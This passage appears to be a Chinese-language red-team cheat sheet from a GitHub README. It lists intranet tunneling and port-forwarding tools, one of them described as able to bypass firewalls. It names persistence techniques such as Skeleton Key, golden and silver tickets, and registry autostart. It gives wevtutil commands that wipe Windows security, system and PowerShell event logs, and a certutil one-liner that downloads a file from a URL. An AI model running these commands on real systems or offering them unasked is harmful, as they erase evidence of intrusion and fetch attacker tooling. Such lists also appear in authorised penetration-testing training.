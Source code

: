 ## 内网穿透

1. [frpmodify](https://github.com/uknowsec/frpModify)无需frpc.ini落地

   ```
   frp指定参数版（无需frpc.ini落地）
   ```

2. [nps](https://github.com/ehang-io/nps)无配置文件落地

   ```
   一款轻量级、高性能、功能强大的内网穿透代理服务器。支持tcp、udp、socks5、http等几乎所有流量转发。使用参考：https://mp.weixin.qq.com/s/zI04_kxVFWdnegctAzNmmg。
   ```


3. [NATBypass](https://github.com/cw1997/NATBypass)端口转发

   ```
   一款lcx（htran）在golang下的实现。
   通过主动连接具有公网IP的电脑打通隧道可实现内网穿透，让内网主机提供的服务能够借助外网主机来访问。软件实现的端口转发，透明代理，在主机限制入站规则但未限制出站规则的特定情况下可绕过防火墙。
   ```

4. [iox](https://github.com/EddieIvan01/iox)端口转发与socks5隧道

   ```
   golang实现，端口转发和内网代理工具，功能类似于lcx/ew，但是比它们更好。
   ```

## 权限维持

1. Skeleton Key
2. 白银票据
3. 黄金票据
4. 自启动运行
   - 创建自启动服务
   - 启动文件夹
   - 添加注册表实现自启动


## 日志清除

清除系统日志

```bash
wevtutil cl security
wevtutil cl system
wevtutil cl application
wevtutil cl "windows powershell"
```

## 辅助模块

1. certutil下载文件

   ```bash
   certutil.exe -urlcache -split -f $url $path
   ```
